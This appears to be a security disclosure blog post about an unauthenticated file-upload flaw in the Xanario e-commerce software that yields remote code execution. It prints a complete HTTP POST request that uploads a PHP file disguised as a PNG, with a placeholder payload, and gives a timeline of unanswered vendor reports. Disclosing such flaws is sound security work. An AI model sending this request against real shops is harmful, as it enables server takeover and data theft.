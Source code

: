 # Unauthenticated Remote Code Execution (RCE) via Arbitrary File Upload in Xanario

Xanario presents itself as an e-commerce solution designed to streamline online retail. More information can be found at [xanario.de](https://xanario.de).  

Interestingly, purchasing their software requires customers to share their FTP credentials and admin password through a PDF form—an approach that speaks volumes about their understanding of security best practices.

The vulnerability at hand allows unauthenticated attackers to upload arbitrary PHP files through a seemingly innocuous endpoint: `/404.php?action=add_product`. This file upload does not require any authentication and leads directly to remote code execution.


```http
POST /404.php?action=add_product HTTP/2
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymHYufpymkCWywEX5
Content-Length: 488

------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="number_of_uploads"

1
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="products_id"

1
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="upload_1"

bar
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="id[txt_bar]"; filename="1.php"
Content-Type: image/png

<?php evilstuff..;?>
------WebKitFormBoundarymHYufpymkCWywEX5--
```


This disclosure marks the first installment in a series of identified vulnerabilities affecting Xanario. Users and administrators are strongly encouraged to evaluate safer alternatives and reconsider their reliance on this software.

Stay tuned for more insights as we continue to explore Xanario’s security landscape.

---

## Timeline
* December 24, 2024: Initial vulnerability report sent to the vendor. No response received.
* February 12, 2025: Follow-up notification sent. Still no reply.

